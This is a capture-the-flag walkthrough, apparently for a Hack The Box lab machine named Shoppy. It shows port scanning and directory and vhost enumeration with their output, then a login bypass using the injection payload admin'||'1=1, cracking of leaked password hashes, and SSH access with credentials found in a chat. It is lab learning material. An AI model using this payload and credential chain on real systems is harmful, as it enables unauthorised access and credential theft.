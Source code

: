 
<h1 align=center>Shoppy</h1>

## Part 1 : Discovery
## Scanning
```sudo nmap -sVC -T4 -p- target_ip``` gives us the result : 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This box is hosting a web application on port 80 called shoppy.htb. <br/>

This website is unreachable. We have to specifiy this machines' IP and domain into our local DNS Resolver.<br/>
- execute : ```sudo vi /etc/hosts/```
- insert : ``` target_ip  shoppy.htb```
- save and quit

## Investigating the website
We should discover if there are any subdomains or virtual hosts that are serving under the same ip

### Finding directories 
- execute ```gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt``` to find directories under this domain<br/> result :
```
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/03 16:30:35 Starting gobuster in directory enumeration mode
===============================================================
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]               
                                                               
===============================================================
2022/11/03 16:33:12 Finished
===============================================================

```


### Finding Virtual Hosts
- execute ```gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt``` to find any active vhosts serving under this domain.<br/> result : <br/>
```
gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/03 16:30:45 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/11/03 16:41:26 Finished
===============================================================
```
- We can see that there is a vhost called ```mattermost.shoppy.htb``` serving under this domain.
- We should insert this next to the line that we created at our local DNS Resolver.

## Exploiting.
We can see that there are some login and admin directories that opens a new page and asks user to login. We may bypass authentication via SQLI.
- go to http://shoppy.htb/login
- enter ```admin'||'1=1``` into username
This will bring us the admin page that we can search anything in the admin page. <br/>
- I have decided to use ```admin'||'1=1``` once again here to see if there are anything hidden in the Database.
- This gives us a download button which will download some creds about the users.
- Crack the hashes using hash crackers.
- This will give you the joshes' password.
- Now enter joshes' creds at mattermost.shoppy.htb.
- We can find that jaeger said josh to connect to the machine with given creds.
- Now we should form a connection via ssh to the target machine using the given creds.
### SSH connection
- execute ```ssh -l jaeger```
- enter the password given at mattermost.shoppy.htb
```
ssh -l jaeger 10.10.11.180
jaeger@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov  3 08:08:12 2022 from your_ip
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  shoppy_start.sh  Templates  user.txt  Videos

```
- execute ```cat user.txt``` to recover the user flag.
